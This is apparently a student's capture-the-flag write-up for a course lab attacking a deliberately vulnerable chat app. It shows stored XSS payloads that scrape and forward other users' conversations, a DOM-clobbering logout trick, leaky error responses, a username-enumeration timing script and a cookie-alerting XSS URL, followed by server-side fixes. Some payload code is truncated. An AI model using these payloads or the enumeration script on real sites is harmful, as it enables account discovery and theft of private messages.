


[](https://classroom.github.com/a/1vxbBob6)

# 7 Security

The first 3 vulnerabilities are Cross-Site Scripting (XSS)

* CWE-20 (Improper Input Validation)
* CWE-79 (Improper Neutralization of Input During Web Page Generation)


## First, get the ID of the conversation between Donald and Elon

First, I injected an image tag with an `onerror` event to execute JavaScript when the image fails to load, which is always in this case since the source is invalid:

```html
{
   if (document.querySelector('#header .name').innerText !== 'Van Hove Timothée') {
    let t = Array(...document.querySelectorAll('#conversations-list')).map(c => c.innerHTML.trim()).join('|||');
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
});"/>
```

Then click on "Donald Trump"




From this injection, the conversation ID was extracted from the URL, identified as `3607a0ed4fd6eb43`.


## Flag 1 and 2

Using another crafted `onerror` event, I exploited the same XSS vulnerability to fetch conversation details between Elon Musk and Donald Trump, searching for any occurrence of flags:

```html
 response.text())
    .then(htmlContent => {
        // Regexp to find 'flag1:' or 'flag2:' followed by 16 hex characters
        const flagRegex = /(flag[12]:[0-9a-fA-F]{16})/g;
        const matches = htmlContent.match(flagRegex) || [];

        // Join matches into a single string to send
        const flags = matches.join(' ');
        return flags; // Pass the flags to the next then
    })
    .then(flags => {
        // Fetch to my conversation
        fetch('/conversation/666b14ed917df14b').then(response => {
            document.getElementById('message').value = flags; // Set the message content to the found flags
            document.getElementById('messageButton').click(); // Send the message
        });
    });"/>
```

This code matches the occurrences of the flags in the HTML page of Elon Musk (so in the conversations Musk have with Trump), and sends the result back to us using the chat.

The flags extracted were:

- Flag 1: `flag1:1803d46883b72d42`
- Flag 2: `flag2:72b30b741696b185`


## Flag 3

To get the third flag, I impersonated Elon by sending a message to Donald, then capturing the response:

```html

```


```html
{

   if (document.querySelector('#header .name').innerText !== 'Van Hove Timothée') {
    let t = Array(...document.querySelectorAll('.conversation')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
});"/>
```

This action revealed the third flag:

- Flag 3: `flag3:7fed1d34ad5710e7`


## Flag 4

**Vulnerability: Variable injection** 

* CWE-20: Improper Input Validation
* CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes)

This one was hard! For this exploit, we had to rename ourselves as `nextTimeout`. In JavaScript, every HTML element with an id attribute automatically creates a global variable of the same name in the global namespace window. If you have a `<div id="nextTimeout">` element, `window.nextTimeout` refers to this DOM element.

In the `index.ejs` file, we have this code:

```javascript
try {
    let textArea = document.getElementById("message");
    if (textArea) {
        textArea.oninput = () => {
            nextTimeout = Date.now() + timeoutDuration;
        };
    }
    
    if (!nextTimeout) {
        console.log("Setting nextTimeout because it wasn't");
        nextTimeout = Date.now() + timeoutDuration;
    }

    setInterval(() => {
        let secondsLeft = parseInt((nextTimeout - Date.now()) / 1000);
        if (secondsLeft > 0) {
            console.log(`${secondsLeft} seconds left before logging out.`);
        } else {
            location.href = '/logout';
        }
    }, 1000);
} catch (e) {
    // Parse error, should never happen
}
```

If `nextTimeout` is not explicitly defined as a variable (with var, let, or const) prior to its use, it becomes a property of the global window object as soon as it is assigned for the first time. If `nextTimeout` is also the id of an HTML element, this creates a conflict where `nextTimeout` could reference the DOM element instead of the expected time value.

in addition, JavaScript evaluates `NaN` as falsy, so any comparison with `NaN` (such as `NaN > 0`) will evaluate to `false`. If nextTimeout is assigned to a non-numeric value (for example, to a DOM element due to variable injection via id), then `nextTimeout - Date.now()` will be `NaN`.

What happens next is that the calculation of `secondsLeft` becomes `NaN` because you subtract a number from an object (or another non-numeric value). Therefore, `NaN > 0` is `false`, so the script executes the code in the `else` block of `setInterval` :

```javascript
else {
    location.href = '/logout';
}
```

This will cause the user to be forced to logout due to the induced error.

Flag:

```
flag4:69b113b57681d32c
```


## Flag 5

**Vulnerability: Information Leakage and Improper Error Handling**

* CWE-209 (Generation of Error Message Containing Sensitive Information)

The application improperly handles errors by divulging too much information when a GET request fails, particularly when an empty message is sent. When attempting to send an empty message to Elon, the error response included not just a standard error message, but also conversation ids:

```json
{
    "error": "Operation not permitted",
    "reason": "Message is empty",
    "details": {
        "message": "",
        "sender": {
            "username": "timothee.vanhove2",
            "displayName": "Van Hove Timothée",
            "uniqueId": "717d5cfbda4f7eae",
            "conversationIds": [
                "50a3f2e0e45fbde6",
                "41609d43d5e2d8a4"
            ]
        },
        "receiver": {
            "username": "Elon_timothee.vanhove2",
            "displayName": "Elon Musk",
            "uniqueId": "4b45ab1bf065c7fa",
            "conversationIds": [
                "50a3f2e0e45fbde6",
                "ce20710a5a1a4b82"
            ]
        }
    }
}
```


From there, we can see that Elon possess a conversation ID `ce20710a5a1a4b82`. Using the extracted conversation ID, an unauthorized access attempt was made to the endpoint `/conversation/ce20710a5a1a4b82`. This attempt also resulted in an error but leaked the entire conversation content:

```json
{
    "error": "Operation not permitted",
    "reason": "User is not part of the conversation",
    "details": {
        "user": {
            "username": "timothee.vanhove2",
            "displayName": "Van Hove Timothée",
            "uniqueId": "717d5cfbda4f7eae",
            "conversationIds": [
                "50a3f2e0e45fbde6",
                "41609d43d5e2d8a4"
            ]
        },
        "conversation": {
            "uid": "ce20710a5a1a4b82",
            "messages": [
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "hey mark",
                    "escaped": false
                },
                {
                    "senderUid": "ecaae826ea4f80a9",
                    "content": "Hi Elon",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "i'm bored",
                    "escaped": false
                },
                {
                    "senderUid": "ecaae826ea4f80a9",
                    "content": "I see",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "wanna fight in an arena",
                    "escaped": false
                },
                {
                    "senderUid": "ecaae826ea4f80a9",
                    "content": "Excuse me?",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "i've found a cool arena",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "it's called the arena of death",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "here https://shorturl.at/jrw89",
                    "escaped": false
                },
                {
                    "senderUid": "4b45ab1bf065c7fa",
                    "content": "might need a password flag5:a13df93481bc5303",
                    "escaped": false
                },
                {
                    "senderUid": "ecaae826ea4f80a9",
                    "content": "Please don't contact me anymore",
                    "escaped": false
                }
            ]
        }
    }
}
```

This conversation contains the flag: `flag5:a13df93481bc5303`


## Flag 6

**Vulnerability: Timing Attack**

* CWE-208 (Time and State, reflecting the security weakness where the timing of computation or state conditions can be used to discern or influence state)

The server’s response times vary based on whether the submitted credentials correspond to an existing user account. For users with an account, the response time is longer (~3100 ms) compared to those without an account (~80 ms). This difference can be exploited to deduce the existence of user accounts.

Using a simple python script, I iterated through each username, attempting a login with a generic or incorrect password. The script measured the time taken for the server to respond to each login request:

```python
import requests
import time

usernames = ["michelle.obama", "barack.obama", "hillary.clinton", "george.w.bush", "jane.doe", "sam.altman", "mira.murati", "olivier.lemer"]
url = "http://185.143.102.102:8080/login"

for username in usernames:
    start_time = time.time()
    response = requests.post(url, data={"username": username, "password": "password"})
    elapsed_time = (time.time() - start_time) * 1000  # Convert to milliseconds

    print(f"Username: {username}, Response Time: {elapsed_time:.2f} ms")
```

output:
```
Username: michelle.obama, Response Time: 3082.21 ms
Username: barack.obama, Response Time: 71.27 ms
Username: hillary.clinton, Response Time: 3138.18 ms
Username: george.w.bush, Response Time: 3077.21 ms
Username: jane.doe, Response Time: 82.53 ms
Username: sam.altman, Response Time: 3078.97 ms
Username: mira.murati, Response Time: 80.00 ms
Username: olivier.lemer, Response Time: 80.96 ms
```


People having an account:

* michelle.obama
* hillary.clinton
* george.w.bush
* sam.altman


## Additional exploit

Link to ChatsApp which, when clicked, executes alert(document.cookie) in the browser, whether or not you are currently connected.

http://185.143.102.102:8080/login?error=%3Cscript%3Ealert(document.cookie);%3C/script%3E


## Vulnerability corrections

### Flags 1, 2 and 3 - Preventig XSS

To correct the XSS vulnerabilities, I initially used client-side sanitation, however, client-side measures are insufficient due to their bypassable nature by attackers. So I implemented server-side input sanitation using the `xss` library to ensure that all messages are filtered before being saved or displayed. This measure prevents malicious scripts from being executed when data is rendered on the client side.

````javascript
// server.js line 178

// Posting a message
app.post("/conversation/:conversationId", isLoggedIn, async (req, res) => {
    let user = req.user
    let mainConversation = req.conversation
    let message = xss.filterXSS(req.body.message);

    const other = await mainConversation.getOtherUser(user)

    if (message.length == 0) {
        res.status(403).json(emptyMessageError(user, other))

        return
    }

    // Wait for a second, to avoid spamming if they manage to create a loop.
    await new Promise(resolve => setTimeout(resolve, 500));

    await mainConversation.addMessage(user.id, message);

    emitter.emit("message::" + user.id, [{ conversationId: mainConversation.id, fromMe: true, message }]);
    emitter.emit("message::" + other.id, [{ conversationId: mainConversation.id, fromMe: false, message }]);

    res.status(200).send("Message sent")
})
````


### Flag 4 - Variable Injection

To mitigate the variable injection vulnerability, a simple declaration of the `nextTimeout` variable at the beginning of the script ensures it is treated as a local variable rather than inadvertently interacting with global objects or DOM elements, thus preventing unwanted overwriting or manipulation.


### Flag 5 - Information Leakage

To avoid leaking too much information on the responses of the server , we should remove the conversation ids from the details. 

Adjustments were made to error messages to prevent them from disclosing too much information such as user identifiers or conversation IDs. This change reduces the risk of information leakage that could be exploited by an attacker to further compromise the system ( `error.js`).


### Flag 6 - Timing Attack

In the server, I used a constant-time login verification process using bcrypt to compare submitted passwords with stored hashes. This ensures that the time taken to log in does not vary significantly between correct and incorrect passwords, mitigating timing attacks.

```javascript
if (user) {
    if (bcrypt.compareSync(password, user.password)) {
        return done(null, user)
    }
    return done(null, false, {message: 'Invalid username or password'});
} else {
    // Login in time-const manner to avoid timing attacks
    bcrypt.compareSync('test', bcrypt.genSaltSync())
    return done(null, false, {message: 'Invalid username or password'});
}
```


### Additional exploit - XSS via Query Parameters

To fix the additional exploit, I have used `filterXSS` from the `xss` package to ensure that any harmful scripts or HTML tags embedded in the `error` query parameter are neutralized before being sent to the client’s browser. This function encodes or strips out dangerous content, such as `<`, `>`, `"` (quotes), and other characters.


```javascript
app.get('/login', (req, res) => {
    let username = req.cookies.username || '';
    let errorMessage = xss.filterXSS(req.query.error)
    res.render('login', {username, errorMessage });
});
```

With this fix, the query is now inly displayed in the error field and not executed anymore:




### Bcrypt, passport and express-session implementation

To enhance authentication security, I used `bcrypt` for secure password hashing, `passport` for managing authentication states, and `express-session` for maintaining session information securely.

- **Bcrypt**: Ensures that all user passwords are stored securely using salted hashing.
- **Passport**: Utilizes strategies to authenticate requests, which abstracts the complexity involved in handling login and serialization of user information.
- **Express-Session**: Manages sessions in a server-side store with proper configuration to enhance security, such as using HTTPOnly and secure flags on cookies to prevent access via client-side scripts and ensure cookies are transmitted only over HTTPS.
